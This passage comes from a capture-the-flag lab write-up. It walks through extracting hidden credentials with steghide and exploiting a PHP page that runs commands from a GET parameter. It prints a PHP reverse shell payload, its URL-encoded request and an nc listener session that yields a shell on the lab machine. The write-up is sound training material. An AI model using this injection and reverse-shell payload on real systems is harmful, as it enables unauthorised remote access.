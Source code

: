 And it appears that it was a trap for us. But it also says that this image is wrong. So, maybe we need to perform the same thing on some other image. Also, on the homepage we can see that there are 3 images: first one is at the top of the page, dinosaur is the second one and a third one at the end of the page. We can start with the first image for which we need to download it and again run `steghide` over it.

```
┌─[✗]─[tester@parrot-virtual]─[~/Downloads/jackofalltrades]
└──╼ $steghide extract -sf header.jpg 
Enter passphrase: 
wrote extracted data to "cms.creds".
┌─[tester@parrot-virtual]─[~/Downloads/jackofalltrades]
└──╼ $cat cms.creds 
Here you go Jack. Good thing you thought ahead!

Username: XXXXXXXXXXXX
Password: XXXXXXXXXX
```

So, now we have the credenitials for the hidden page from where we can access the machine. Once, we login on the page there is nothing except a note saying:

> GET me a 'cmd' and I'll run it for you Future-Jack.

This hints that we need to pass whatever the command is as a parameter in the URL itself. We can try this by passing a few basic linux commands like `whoami` and `pwd`.

* http://10.10.137.227:22/XXXXXXXX/ZZZZZ.php?cmd=whoami

> GET me a 'cmd' and I'll run it for you Future-Jack. www-data www-data

* http://10.10.137.227:22/XXXXXXXX/ZZZZZ.php?cmd=uname

> GET me a 'cmd' and I'll run it for you Future-Jack. Linux Linux

Running these commands has confirmed that we can perform command injection here. So, with the help of this we can get a reverse shell to the target machine using one of the [Reverse Shell Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). We will be using a PHP payload as we are passing the parameters to a PHP page. Also, before passing the payload in the URL, we can URL encode it.

The payload that I am using is:

```
php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

The final request would look something like:

```
http://10.10.137.227:22/XXXXXXXX/ZZZZZ.php?cmd=php%20-r%20%27$sock=fsockopen(%2210.*.*.*%22,4242);$proc=proc_open(%22/bin/sh%20-i%22,%20array(0=%3E$sock,%201=%3E$sock,%202=%3E$sock),$pipes);%27
```

Remeber to start a listener on the local machine using the command `nc-nvlp 4242` before sending the request to the target machine. As soon as the request is processed, we get our remote shell:

```
┌─[tester@parrot-virtual]─[~]
└──╼ $nc -nvlp 4242
listening on [any] 4242 ...
connect to [10.8.91.135] from (UNKNOWN) [10.10.137.227] 47491
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/var/www/html/nnxhweOV
$ 
```
